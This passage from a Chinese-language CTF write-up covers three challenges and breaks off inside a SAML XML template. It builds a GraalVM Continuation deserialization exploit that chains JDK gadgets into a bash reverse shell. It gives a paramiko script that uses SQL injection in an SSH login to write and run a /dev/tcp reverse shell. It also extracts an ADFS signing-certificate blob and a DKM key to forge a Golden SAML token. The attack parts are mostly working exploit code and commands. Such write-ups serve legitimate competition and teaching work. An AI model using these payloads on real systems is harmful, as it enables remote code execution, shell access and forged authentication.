<https://github.com/oracle/graal/blob/47d997e14c7581136fe01e68dda0f606a7941fde/espresso/src/com.oracle.truffle.espresso/src/com/oracle/truffle/espresso/substitutions/Target_org_graalvm_continuations_ContinuationImpl.java#L165>

反序列化时调用 `org.graalvm.continuations.ContinuationImpl#readObjectExternalImpl`, 主要就是恢复相关字段



后续 resume 时会调用 `org.graalvm.continuations.ContinuationImpl#resume`



其中的 ensureDematerialized 会调用 dematerialize0 native 方法, 依照 stackFrameHead 链表的内容恢复 JVM 调用栈

<https://github.com/oracle/graal/blob/47d997e14c7581136fe01e68dda0f606a7941fde/espresso/src/com.oracle.truffle.espresso/src/com/oracle/truffle/espresso/substitutions/Target_org_graalvm_continuations_ContinuationImpl.java#L182>

重点关注 stackFrameHead 字段, 其本质就是一个单向链表, 由 `org.graalvm.continuations.ContinuationImpl.FrameRecord` 结构实现





FrameRecord 表示一个栈帧 (Stack Frame), 记录了如下信息

* next: 指向下一个 FrameRecord (单向链表结构)
* primitives & pointers: 基本类型和引用类型的 Stack 和局部变量表 (Local Variables Table, 每个存储单元被称为 slot)
* method: 当前调用的方法
* bci: bytecode index, 当前执行的 opcode 在字节码中的偏移 (功能上类似于 EIP/RIP 寄存器)

我们可以在 resume 前调用 toDebugString 方法来观察 stackFrameHead 的内容

```
package exploit;

import org.graalvm.continuations.Continuation;
import util.SerializeUtil;

public class Demo {
    public static void main(String[] args) throws Throwable {
        // init classes
        Job job = new Job();
        Continuation continuation = Continuation.create(job);

        // resume continuation
        continuation.resume();

        // serialize and deserialize continuation
        System.out.println("serialize and deserialize");
        byte[] data = SerializeUtil.serialize(continuation);
        Continuation deserialized = (Continuation) SerializeUtil.deserialize(data);

        // resume the persistent continuation
        System.out.println(deserialized.toDebugString());
        // deserialized.resume();
    }
}
```

输出

```
Continuation[SUSPENDED] with recorded frames:
  org.graalvm.continuations.ContinuationImpl.suspend(ContinuationImpl.java:821)
    Current bytecode index: 1
    Pointers: [this continuation, null]
    Primitives: 0, 0
  org.graalvm.continuations.ContinuationImpl.trySuspend(ContinuationImpl.java:479)
    Current bytecode index: 44
    Pointers: [this continuation, null, null, null, null, null, null]
    Primitives: 0, 0, 0, 0, 0, 0, 0
  org.graalvm.continuations.SuspendCapability.suspend(SuspendCapability.java:72)
    Current bytecode index: 4
    Pointers: [org.graalvm.continuations.SuspendCapability@736e2512, null]
    Primitives: 0, 0
  app//exploit.Job.start(Job.java:12)
    Current bytecode index: 9
    Pointers: [exploit.Job@b2cb001, org.graalvm.continuations.SuspendCapability@736e2512, null, null]
    Primitives: 0, 0, 0, 0
  org.graalvm.continuations.ContinuationImpl.run(ContinuationImpl.java:697)
    Current bytecode index: 38
    Pointers: [this continuation, org.graalvm.continuations.SuspendCapability@736e2512, null, null, null, null, null, null, null]
    Primitives: 0, 0, 0, 0, 0, 0, 0, 0, 0
```

Job.start 方法的 bci 为 9, 正好对应字节码中的 `invokevirtual`, 即调用 suspend 方法的位置

(bci 偏移可以使用 IDEA 的 jclasslib 插件或 `javap -c -s -p -l className` 命令查看)



也就是说 bci 指向的是当前已经执行完毕的 opcode, 即后续 resume 时会从 bci 后面的 opcode 开始执行

另外需要注意 bci 指向的 opcode 只能为 `invokestatic/invokespecial/invokeinterface/invokevirtual` 其中之一, 不能为 `invokedynamic`

<https://github.com/oracle/graal/blob/dafeca6d4db8f45b20496e193f8e926db27423f7/espresso/src/com.oracle.truffle.espresso/src/com/oracle/truffle/espresso/vm/continuation/HostFrameRecord.java#L134>

结合以上知识, 不难想到可能存在这么一种利用手法:

**通过修改 stackFrameHead 链表的内容可以改变 resume 时恢复的 JVM 调用栈, 进而可以劫持控制流, 实现 "ROP"**

重点在于修改 FrameRecord 结构的 next, method, pointers, primitives 和 bci 字段

* 仅修改 bci: 在当前 method 内跳转到特定的 opcode
* 修改 bci + method: 跳转到特定 method 的特定 opcode (gadget)
* 修改 next: 构造多个不同 method 之间的调用关系, 劫持控制流, 实现 "ROP"
* 修改 pointers 和 primitives: 可以修改局部变量表, 进而控制调用方法时传入的参数, 或是 return 的返回值

与 ROP 中的 gadget (汇编指令片段) 类似, 这里的 gadget 指的是 JVM 指令片段 (method + bci)

我们需要在 JDK 库中找到合适的能够实现 RCE 的 gadget (其实也就是找 method 和 bci), 其必须满足如下条件:

1. 方法内部必须有多个方法调用, 即 `invokestatic/invokespecial/invokeinterface/invokevirtual` 指令 (不能为 `invokedynamic`), 因为 bci 仅能指向 invoke 系列指令, 同时会从该 invoke 指令的下一条指令开始继续执行
2. 方法必须为静态方法, 否则必须保证对象本身可以被序列化 (Serializable), 或者待执行的 JVM 指令片段 (bci 后面的一系列指令) 中没有对 this 指针的访问

理论上不止一个 gadget, 而且不止一种类型的 gadget (RCE/反序列化/读写文件/SSRF)

这里给出一个 RCE gadget: `sun.print.UnixPrintJob.PrinterSpooler#run`

方法内部存在对 Runtime.exec 的调用



在 102 位置存在 Runtime.exec 调用, 因此可以将 bci 设置成 98 (`invokevirtual` 指令)



到这里按理来说就可以成功 RCE 了, 但是实际上调试一会可以发现尽管我们能够控制局部变量表, 但仍然无法控制传入 Runtime.exec 的参数

这个不可控的参数来自于 printExecCmd 方法的返回值

`sun.print.UnixPrintJob#printExecCmd`



那么可以换个思路曲线救国, 先设法控制 printExecCmd 方法的返回值, 然后在调用完毕后继续执行上面提到的 run 方法 (即构造两个相邻的栈帧), 这样就可以间接控制传入 Runtime.exec 的参数

根据上图的字节码可以发现在 367 的位置存在 `invokevirtual` 指令, 满足 bci 字段的条件

即设置 bci = 367, 再适当修改 primitives 和 pointers 以控制局部变量表, 使得方法内部执行 `areturn` 指令的时候返回我们特定的 execCmd, 后续将这个 execCmd 作为参数传入 Runtime.exec 实现 RCE

最终 payload 如下

OnlyJdkGadget

```
package exploit.gadget;

import exploit.Job;
import util.ReflectUtil;
import util.SerializeUtil;
import org.graalvm.continuations.Continuation;

import java.lang.reflect.Method;
import java.nio.file.Files;
import java.nio.file.Paths;

public class OnlyJdkGadget {
    public static void main(String[] args) throws Exception {
        Job job = new Job();

        Continuation continuation = Continuation.create(job);
        continuation.resume();

        byte[] serialized = SerializeUtil.serialize(continuation);
        System.out.println("serialized");

        Continuation deserialized = (Continuation) SerializeUtil.deserialize(serialized);
        System.out.println("deserialized");

        // [1]
        ReflectUtil.setFieldValue(deserialized, "entryPoint", null);

        // org.graalvm.continuations.ContinuationImpl.run
        Object stackFrameHead = ReflectUtil.getFieldValue(deserialized, "stackFrameHead");
        Object next = stackFrameHead;

        Method method;
        Object[] pointers;
        long[] primitives;
        int bci;

        // exploit.Job.start
        next = ReflectUtil.getFieldValue(next, "next");
        // org.graalvm.continuations.SuspendCapability.suspend
        next = ReflectUtil.getFieldValue(next, "next");

        method = Class.forName("sun.print.UnixPrintJob$PrinterSpooler").getDeclaredMethod("run");
        pointers = new Object[]{ null, null, "a", "b", "c", "d", "e", "f", "g", "h", "i", "j", "k", "l" };
        primitives = new long[]{  0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0 };
        bci = 98;

        ReflectUtil.setFieldValue(next, "method", method);
        ReflectUtil.setFieldValue(next, "pointers", pointers);
        ReflectUtil.setFieldValue(next, "primitives", primitives);
        ReflectUtil.setFieldValue(next, "bci", bci);

        // [2]
        ReflectUtil.setFieldValue(deserialized, "stackFrameHead", next);

        // org.graalvm.continuations.ContinuationImpl.trySuspend
        next = ReflectUtil.getFieldValue(next, "next");

        // String cmd = "open -a Calculator";
        String cmd = "bash -i >& /dev/tcp/host.docker.internal/4444 0>&1";

        method = Class.forName("sun.print.UnixPrintJob").getDeclaredMethod("printExecCmd", String.class, String.class, boolean.class, String.class, int.class, String.class);
        pointers = new Object[]{ null, null, "a", "b", "c", "d", "e", "f", "g", "h", "i", "j", "k", "l", new String[] { "/bin/bash", "-c", cmd } };
        primitives = new long[]{  0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0 };
        bci = 367;

        ReflectUtil.setFieldValue(next, "method", method);
        ReflectUtil.setFieldValue(next, "pointers", pointers);
        ReflectUtil.setFieldValue(next, "primitives", primitives);
        ReflectUtil.setFieldValue(next, "bci", bci);

        System.out.println(deserialized.toDebugString());
        // deserialized.resume();

        Files.write(Paths.get("payload.bin"), SerializeUtil.serialize(deserialized));
    }
}
```

Job

```
package exploit;

import org.graalvm.continuations.ContinuationEntryPoint;
import org.graalvm.continuations.SuspendCapability;

import java.io.Serializable;

public class Job implements ContinuationEntryPoint, Serializable {
    @Override
    public void start(SuspendCapability suspendCapability) {
        System.out.println("Continuation started");
        suspendCapability.suspend();
        System.out.println("Continuation ended");
    }
}
```

ReflectUtil

```
package util;

import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.lang.reflect.Method;

public class ReflectUtil {

    public static Object getFieldValue(Object obj, String name) throws Exception {
        return getFieldValue(obj.getClass(), obj, name);
    }

    public static Object getFieldValue(Class<?> clazz, Object obj, String name) throws Exception {
        Field f = clazz.getDeclaredField(name);
        f.setAccessible(true);
        return f.get(obj);
    }

    public static void setFieldValue(Object obj, String name, Object val) throws Exception {
        setFieldValue(obj.getClass(), obj, name, val);
    }

    public static void setFieldValue(Class<?> clazz, Object obj, String name, Object val) throws Exception {
        Field f = clazz.getDeclaredField(name);
        f.setAccessible(true);
        f.set(obj, val);
    }

    public static Object invokeMethod(Object obj, String name, Class[] parameterTypes, Object[] args) throws Exception {
        return invokeMethod(obj.getClass(), obj, name, parameterTypes, args);
    }

    public static Object invokeMethod(Class<?> clazz, Object obj, String name, Class[] parameterTypes, Object[] args) throws Exception {
        Method m = obj.getClass().getDeclaredMethod(name, parameterTypes);
        m.setAccessible(true);
        return m.invoke(obj, args);
    }

    public static Object newInstance(Class<?> clazz, Class[] parameterTypes, Object[] args) throws Exception {
        Constructor constructor = clazz.getDeclaredConstructor(parameterTypes);
        constructor.setAccessible(true);
        return constructor.newInstance(args);
    }
}
```

SerializeUtil

```
package util;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;

public class SerializeUtil {

    public static byte[] serialize(Object obj) throws Exception {
        ByteArrayOutputStream arr = new ByteArrayOutputStream();
        try (ObjectOutputStream output = new ObjectOutputStream(arr)){
            output.writeObject(obj);
        }
        return arr.toByteArray();
    }

    public static Object deserialize(byte[] arr) throws Exception {
        try (ObjectInputStream input = new ObjectInputStream(new ByteArrayInputStream(arr))){
            return input.readObject();
        }
    }

    public static void test(Object obj) throws Exception {
        deserialize(serialize(obj));
    }
}
```

stackFrameHead

```
Continuation[SUSPENDED] with recorded frames:
  org.graalvm.continuations.ContinuationImpl.suspend(ContinuationImpl.java:821)
    Current bytecode index: 1
    Pointers: [this continuation, null]
    Primitives: 0, 0
  java.desktop/sun.print.UnixPrintJob.printExecCmd(UnixPrintJob.java:901)
    Current bytecode index: 367
    Pointers: [null, a, b, c, d, e, f, g, h, i, j, k, l, [Ljava.lang.String;@78d208f6]
    Primitives: 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0
  java.desktop/sun.print.UnixPrintJob$PrinterSpooler.run(UnixPrintJob.java:983)
    Current bytecode index: 98
    Pointers: [null, a, b, c, d, e, f, g, h, i, j, k, l]
    Primitives: 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0, 0
```

需要注意题目中仅有 challenge.Web 这一个类, 因此在构造的过程中得先使用自己写的 Job 类 (继承 ContinuationEntryPoint), 然后在序列化前从 stackFrameHead 链表内删除带有 Job 的栈帧, 并将 Continuation 对象内带有 Job 信息的 entryPoint 字段设置为 null (即上面用 `[1]` 和 `[2]` 标记的行)

最后发送 payload 反弹 shell 拿到 flag

```
curl http://127.0.0.1:8000/coffee -X POST --data-binary @payload.bin
```

## FakeJumpServer

这题主要是考察选手对堡垒机这类`realworld`场景的漏洞挖掘，思路对上了，做起来就非常简单。

题目入口是一个`nginx`，但是这里面啥都没有。根据题目名字Jump Server，可以联想到题目可能跟堡垒机相关，可以扫描22端口以及3389端口，因为大多数堡垒都是可以通过ssh/rdp端口来访问和管理服务器，很多厂商ssh/rdp都是自己写代码实现的，所以难免会出现漏洞。

扫描题目的端口，发现开放了22端口。

连接题目的22端口，看到ssh banner，猜测这个ssh server大概率是自己实现的。

```
# nc 127.0.0.1 22 -v
Connection to 127.0.0.1 22 port [tcp/ssh] succeeded!
SSH-2.0-FakeJumpServer
```

既然是要输入账号密码，第一反应肯定是要测试sql注入，可以先通过sleep测试数据库类型，这里就不举例了，题目使用的是pgsql

这里密码长度限制是64，并没有严格的长度限制和字符过滤让选手去绕，直接堆叠注入命令执行即可

exp:

```
# encoding:utf-8
import paramiko
# import logging
#
# logging.basicConfig()
# logging.getLogger("paramiko").setLevel(logging.DEBUG)

def ssh_login(hostname, port, username, password):
    try:
        ssh_client = paramiko.SSHClient()
        ssh_client.set_missing_host_key_policy(paramiko.AutoAddPolicy())
        ssh_client.connect(hostname, port, username, password, allow_agent=False, look_for_keys=False)
        print("done")
        ssh_client.close()
    except Exception as e:
        print(e)


def exec_command(hostname, port, cmd):
    password = "';COPY s FROM PROGRAM '{}';--".format(cmd)
    print(password)
    if len(password) > 64:
        print("长度超长: {}".format(len(password)))
    ssh_login(hostname, port, "root", password)


if __name__ == "__main__":
    hostname = "127.0.0.1"
    port = 22

    username = "root"
    password = "-1';CREATE TABLE s(a text);--"
    ssh_login(hostname, port, username, password)

    cmd="echo -n "/bin/sh -i >" > /tmp/1.sh"
    exec_command(hostname, port, cmd)
    cmd="echo -n "& /dev/tcp/" >> /tmp/1.sh"
    exec_command(hostname, port, cmd)

    cmd="echo -n "x.x.x." >> /tmp/1.sh"
    exec_command(hostname, port, cmd)

    cmd="echo -n "x/4444 0>&1" >> /tmp/1.sh"
    exec_command(hostname, port, cmd)

    cmd="chmod +x /tmp/1.sh"
    exec_command(hostname, port, cmd)

    cmd="bash -c /tmp/1.sh"
    exec_command(hostname, port, cmd)
```

## Offens1ve

题目机器提供一个公网IP，选手需要自行在本地配置 hosts：

```
121.41.102.198    oa.offensive.local
121.41.102.198    monitor.offensive.local
121.41.102.198    sts.offensive.local
```

题目开放两个应用：

```
https://oa.offensive.local:8443/
https://monitor.offensive.local:8080/
```

首先访问<https://oa.offensive.local:8443/，将自动跳转到ADFS联合身份验证页面：>



现在的攻击思路就是，需要绕过ADFS Portal，访问到oa系统，才能得到flag。这里就需要我们伪造AD FS 安全令牌（AD FS security tokens）。

伪造 AD FS security tokens 的前提是从 ADFS 的本地 Wid 数据库中提取出令牌签名证书，并从Active Directory 中拿到 DKM 解密密钥。

访问 <https://monitor.offensive.local:8080/> 是一个网络监控系统，并显示了当前内网的拓扑图（假的，，，）



这里设计的比较友好，点击“ADFS01”或者“ADFS02”节点，可以直接导出 ADFS 配置数据：





从 `AdfsConfigurationV4_.IdentityServerPolicy_.ServiceSettings_.sql` 中的EncryptedPFX blob可以找到加密的令牌签名证书：

```
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
```

将其保存到TKSKey.txt中。

然后点击“DC”节点，这里可以查询LDAP语句：



通过`(&(thumbnailphoto=*)(objectClass=contact)(!(cn=CryptoPolicy)))`查询语句可以从LDAP中查询出 DKM Key：



将逗号替换成空格：

```
247 233 184 62 232 77 10 212 57 54 41 4 51 200 57 91 37 196 172 253 141 124 219 125 134 219 137 163 189 90 51 144
```

然后保存到DKMKey.txt中。

现在我们得到了两个文件：

* DKMKey.txt：将包含 DKM 密钥。
* TKSKey.txt：将包含令牌签名密钥。

接下来，需要通过以下命令，将信息转换为工具可以使用的格式：

```
# TKSKey.txt 需要进行 Base64 解码
cat TKSKey.txt | base64 -d > TKSKey.bin

# DKMKey.txt 需要转换为十六进制值
cat DKMkey.txt | awk '{for(i=1;i<=NF;i++) printf "%02X%s", $i, (i<NF?" ":"
")}' | tr -d " " | xxd -r -p > DKMkey.bin
```

现在，我们拥有了伪造 ADFS 登录令牌所需的所有详细信息。此示例使用 [ADFSpoof](https://github.com/fireeye/ADFSpoof) 工具为用户 “Finley\_Blaze1” 创建 Golden SAML 令牌。

首先，将 ADFSpoof/templates/o365.xml 模版文件的内容修改成如下，并将其中的 XML 进行 Minify 操作：

```
<t:RequestSecurityTokenResponse xmlns:t="http://schemas.xmlsoap.org/ws/2005/02/trust"><t:Lifetime><wsu:Created xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-utility-1.0.xsd">$TokenCreated</wsu:Created><wsu:Expires xmlns:wsu="http://docs.oasis-open.org/wss/2004/01/oasis-200401-wss-wssecurity-utility-1.0.xsd">$TokenExpires</wsu:Expires></t:Lifetime><wsp:AppliesTo xmlns:wsp="http://schemas.xmlsoap.org/ws/2004/09/policy"><wsa:EndpointReference xmlns:wsa="http://www.w3.org/2005/08/addressing"><wsa:Address>https://oa.offensive.local:8443/</wsa:Address></wsa:EndpointReference></wsp:AppliesTo><t:RequestedSecurityToken><saml:Assertion xmlns:saml="urn:oasis:names:tc:SAML:1.0:assertion" MajorVersion="1" MinorVersion="1" AssertionID="$AssertionID" Issuer="http://$AdfsServer/adfs/services/trust" IssueInstant="$TokenCreated"><saml:Conditions NotBefore="$TokenCreated" NotOnOrAfter="$TokenExpires"><saml:AudienceRestrictionCondition><saml:Audience>https://oa.offensive.local:8443/</saml:Audience></saml:AudienceRestrictionCondition></saml:Conditions><saml:AttributeStatement><saml:Subject><saml:NameIdentifier Format="urn:oasis:names:tc:SAML:1.1:nameid-format:unspecified">$NameIdentifier</saml:NameIdentifier><saml:SubjectConfirmation><saml:ConfirmationMethod>urn:oasis:names:tc:SAML:1.0:cm:bearer</saml:ConfirmationMethod></saml:SubjectConfirmation></saml:Subject><saml:Attribute AttributeName="upn" AttributeNamespace="http://schemas.xmlsoap.org/ws/2005/05/identity/claims"><saml:AttributeValue>$UPN</saml:AttributeValue></saml:Attribute><saml:Attribute AttributeName="primarysid" AttributeNamespace="http://schemas.microsoft.com/ws/2008/06/identity/claims"><saml:AttributeValue>S-1-5-21-774119550-1432414505-3505898924-1155</saml:AttributeValue></saml:Attribute><saml:Attribute AttributeName="groupsid" AttributeNamespace="http://schemas.microsoft.com/ws/2008/06/identity/claims"><saml:AttributeValue>S-1-5-21-774119550-1432414505-3505898924-513</saml:AttributeValue></saml:Attribute></saml:AttributeStatement><saml:AuthenticationStatement AuthenticationMethod="urn:oasis:names:tc:SAML:2.0:ac:classes:PasswordProtectedTransport" AuthenticationInstant="$TokenCreated"><saml:Subject><saml:NameIdentifier 